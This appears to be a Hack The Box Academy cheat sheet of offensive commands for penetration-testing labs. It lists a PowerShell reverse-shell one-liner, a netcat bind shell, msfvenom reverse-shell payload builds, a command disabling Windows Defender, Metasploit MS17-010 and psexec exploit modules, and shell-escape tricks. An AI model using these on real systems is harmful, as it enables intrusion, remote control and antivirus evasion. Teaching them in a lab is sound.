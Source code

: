 # SHELLS & PAYLOADS

## Windows

- **[xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!](https://github.com/FreeRDP/FreeRDP/wiki/CommandLineInterface)**: CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol.
- **[env](https://man7.org/linux/man-pages/man1/env.1.html)**: Works with many different command language interpreters to discover the environmental variables of a system.
- **[sudo nc -lvnp <port #>](https://linux.die.net/man/1/nc)**: Starts a netcat listener on a specified port.
- **[nc -nv <ip address of computer with listener started><port being listened on>](https://linux.die.net/man/1/nc)**: Connects to a netcat listener at the specified IP address and port.

## PowerShell

- **[Set-MpPreference -DisableRealtimeMonitoring $true](https://docs.microsoft.com/en-us/powershell/module/defender/set-mppreference)**: PowerShell command using to disable real-time monitoring in Windows Defender.
- **[use exploit/windows/smb/psexec](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec)**: Metasploit exploit module that can be used on vulnerable Windows systems to establish a shell session utilizing SMB and PsExec.

## Shell Payloads

- **[rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f](https://linux.die.net/man/1/nc)**: Uses netcat to bind a shell (/bin/bash) to the specified IP address and port, allowing for a remote shell session.
- **[powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"](https://docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/everything-about-expressions?view=powershell-7.2)**: Powershell one-liner used to connect back to a listener that has been started on an attack box.
- **[msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf](https://www.offensive-security.com/metasploit-unleashed/msfvenom)**: MSFvenom command used to generate a Linux-based reverse shell stageless payload.

## More Payloads

- **[msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe](https://www.offensive-security.com/metasploit-unleashed/msfvenom)**: MSFvenom command used to generate a Windows-based reverse shell stageless payload.
- **[msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho](https://www.offensive-security.com/metasploit-unleashed/msfvenom)**: MSFvenom command used to generate a MacOS-based reverse shell payload.
- **[msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp](https://www.offensive-security.com/metasploit-unleashed/msfvenom)**: MSFvenom command used to generate an ASP web reverse shell payload.
- **[msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp](https://www.offensive-security.com/metasploit-unleashed/msfvenom)**: MSFvenom command used to generate a JSP web reverse shell payload.
- **[msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war](https://www.offensive-security.com/metasploit-unleashed/msfvenom)**: MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload.
- **[use auxiliary/scanner/smb/smb_ms17_010](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_ms17_010)**: Metasploit exploit module used to check if a host is vulnerable to MS17-010.
- **[use exploit/windows/smb/ms17_010_psexec](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_psexec)**: Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to MS17-010.
- **[use exploit/linux/http/rconfig_vendors_auth_file_upload_rce](https://www.rapid7.com/db/modules/exploit/linux/http/rconfig_vendors_auth_file_upload_rce)**: Metasploit exploit module that can be used to obtain a reverse shell on a vulnerable Linux system hosting rConfig 3.9.6.

## Interactive Shell Commands

- **[python -c 'import pty; pty.spawn("/bin/sh")'](https://docs.python.org/3/library/pty.html)**: Python command used to spawn an interactive shell on a Linux-based system.
- **[/bin/sh -i](https://linux.die.net/man/1/sh)**: Spawns an interactive shell on a Linux-based system.
- **[perl -e 'exec "/bin/sh";'](https://www.perl.com/)**: Uses Perl to spawn an interactive shell on a Linux-based system.
- **[ruby: exec "/bin/sh"](https://www.ruby-lang.org/)**: Uses Ruby to spawn an interactive shell on a Linux-based system.
- **[Lua: os.execute('/bin/sh')](https://www.lua.org/)**: Uses Lua to spawn an interactive shell on a Linux-based system.
- **[awk 'BEGIN {system("/bin/sh")}'**](https://linux.die.net/man/1/awk)**: Uses awk command to spawn an interactive shell on a Linux-based system.
- **[find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;](https://linux.die.net/man/1/find)**: Uses find command to spawn an interactive shell on a Linux-based system.
- **[find . -exec /bin/sh \; -quit](https://linux.die.net/man/1/find)**: An alternative way to use the find command to spawn an interactive shell on a Linux-based system.
- **[vim -c ':!/bin/sh'](https://www.vim.org/)**: Uses the text editor VIM to spawn an interactive shell. Can be used to escape "jail shells".
- **[ls -la <path/to/fileorbinary>](https://linux.die.net/man/1/ls)**: Used to list files & directories on a Linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute.
- **[sudo -l](https://linux.die.net/man/8/sudo)**: Displays the commands that the currently logged-on user can run as sudo.

## Webshells

- **[/usr/share/webshells/laudanum](https://tools.kali.org/exploitation-tools/laudanum)**: Location of laudanum webshells on ParrotOS and Pwnbox.
- **[/usr/share/nishang/Antak-WebShell](https://github.com/samratashok/nishang)**: Location of Antak-Webshell on Parrot OS and Pwnbox.
